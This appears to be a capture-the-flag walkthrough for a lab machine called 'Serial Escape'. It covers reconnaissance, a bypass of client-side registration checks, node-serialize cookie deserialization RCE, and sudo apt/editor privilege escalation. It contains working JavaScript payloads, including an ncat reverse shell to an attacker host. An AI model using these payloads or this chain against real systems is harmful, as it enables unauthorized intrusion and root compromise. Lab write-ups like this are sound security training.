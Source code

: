 # Serial Escape

You can begin by running a basic NMAP scan on the target.

```bash
nmap -sV -v <target IP>
```

![image](./images/2024-09-25_17h30_17.png)

Based on the NMAP result, there are two open ports: SSH (22) and HTTP (80).
If you navigate to the target IP address on a browser you will see a page as follows.

![image](./images/2024-09-25_17h30_48.png)

Based on the error message, you can understand that the base URL "/" requires authentication to visit.

To discover directories on the web application, you can use a directory brute-forcing tool like FFUF. This revealed an additional directory named 'dev', which also requires authentication.

![image](./images/2024-09-25_17h29_25.png)

When you navigate to the registration page to create a new user, you will see that the form requires you to enter an email address ending with "@oracle.az" only.

![image](./images/2024-09-25_17h31_16.png)

Upon registering, the application sends an OTP code to the provided email for verification, ensuring that users cannot create accounts with fake email addresses. However, after further inspection, you can notice that the email validation (checking if it ends with '@oracle.az') is only performed on the client side.

![image](./images/2024-09-25_18h56_23.png)

You can complete the registration form with dummy data, capture the network traffic using Burp Suite, and modify the email field to use an address of your choice — either a personal email or a temporary/disposable one to receive the OTP and complete verification. For demonstration purposes, a temporary email was used.

https://temp-mail.org/

![image](./images/2024-09-25_17h36_49.png)

Once you have placed a valid email address you can forward the traffic, which will send an OTP to the provided address.

![image](./images/2024-09-25_17h38_46.png)

To complete the registration process, enter the OTP code and submit.

![image](./images/2024-09-25_17h39_16.png)
![image](./images/2024-09-25_17h39_31.png)

As a result, you will be redirected to the login page with a success message indicating that you have successfully created a new user.
Having a user on the web application you can now log in. On the home page, you will see the first flag for the CTF.

![image](./images/2024-09-25_17h39_50.png)

Since you now have a valid user, you can visit the "dev" directory discovered earlier while directory brute-forcing with FFUF.
On the "dev" directory you will see two files: notes.txt and source.zip

![image](./images/2024-09-25_17h41_34.png)

The notes.txt file contains a message titled 'Security Alert,' highlighting a critical vulnerability in the application originating from a package called ```node-serialize```.
According to this message, you can understand that your next step will be downloading the source code of the web app (```/dev/source.zip```) and analyzing it to move the attack further. 

![image](./images/2024-09-25_17h41_42.png)

To begin your code review, start with the ```app.js``` file. In the ```app.js``` file, you'll again notice a warning comment regarding the ```node-serialize``` package.

![image](./images/2024-09-27_22h13_01.png)

To identify what the node-serialize package is vulnerable to, you can search online. You'll discover that it has a critical vulnerability: arbitrary remote code execution, which is explained in the following link. This vulnerability specifically affects the ```unserialize``` function, according to the explanation.
https://security.snyk.io/vuln/npm:node-serialize:20170208

Knowing that the web application is vulnerable to remote code execution, you can examine the source code further to find out where and how the ```node-serialize``` package is used. By searching in the ```app.js``` file, you'll find that the vulnerable package is passed to the ```home``` router after being imported.

![image](./images/2024-09-25_17h45_54.png)

To understand how and for what functionality of the web application the ```node-serialize``` package is used, open the JavaScript file responsible for the home page.
Upon reviewing the code, two key points emerge:
* When a user searches for a keyword, it is taken from the request, serialized, and stored in a cookie named ```last_search```.
* During each GET request to the home page, the value of the ```last_search``` cookie is retrieved, **_UNSERIALIZED_** (which is the vulnerable part), and passed to the client side to be displayed.

This functionality allows users to see their most recent search by storing its value in a cookie.

![image](./images/2024-09-25_17h54_27.png)

In the image below, you can see an example usage of this functionality.

![image](./images/2024-09-25_18h12_04.png)

As your next step, you have to craft such a payload that will execute system commands on the target website.
You can find an example payload from the link provided earlier.

```javascript
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

To adjust the payload for our target application, we need to strip away the dictionary structure, remove enclosing double quotes, escape characters, leaving only the core payload.

To test if the payload works, we can attempt to ping our attacking machine and verify whether the injected system command is executed. To detect the ping requests, start a ```tcpdump``` on the attacker machine to monitor ICMP traffic.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ping <attacker IP> -c 3', function(error, stdout, stderr) { console.log(stdout) });}()
```

Keep in mind that for successful code execution, the payload must first be sent to the web application. After that, you need to send another search keyword. This way, the payload becomes your previous search query and gets unserialized when accessing the home page. The vulnerability, as mentioned earlier, lies in the unserialize function of the package, not the serialize function.

Once the payload above is injected, you will observe six ICMP packets: three requests and three replies.

![image](./images/2024-09-25_18h22_19.png)

Confirming that the payload works, you can modify the payload to get a reverse shell.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ncat <attacker IP> <attacker Port> -e /bin/bash', function(error, stdout, stderr) { console.log(stdout) });}()
```

Upon injection of the payload above, you will get a reverse shell under the "www-data" user, which will enable you to grab the second flag for the CTF.

![image](./images/2024-09-25_18h24_52.png)
![image](./images/2024-09-25_18h35_11.png)

Moving on you can start looking around for a vulnerability/misconfiguration leading to privilege escalation.
As a result of executing  the ```sudo -l``` command, you can see that the www-data user is allowed to run the following command with ```sudo``` privileges.

```
/usr/bin/apt edit-sources ../*
```
![image](./images/2024-09-25_18h30_58.png)

Executing the command ```sudo /usr/bin/apt edit-sources ../foo``` will present you with multiple options to choose a text editor. For privilege escalation, you can select either ```nano``` or ```vim```. Since these editors will run with sudo privileges, you can implement techniques to escalate your privileges. Both editors have techniques for privilege escalation, which you can find in the following links:

https://gtfobins.github.io/gtfobins/vim/#sudo

https://gtfobins.github.io/gtfobins/nano/#sudo

![image](./images/2024-09-25_18h33_34.png)

As a result, you will gain elevated privileges on the target machines under the root user and will be able to read the last flag for the CTF.

![image](./images/2024-09-25_18h34_12.png)

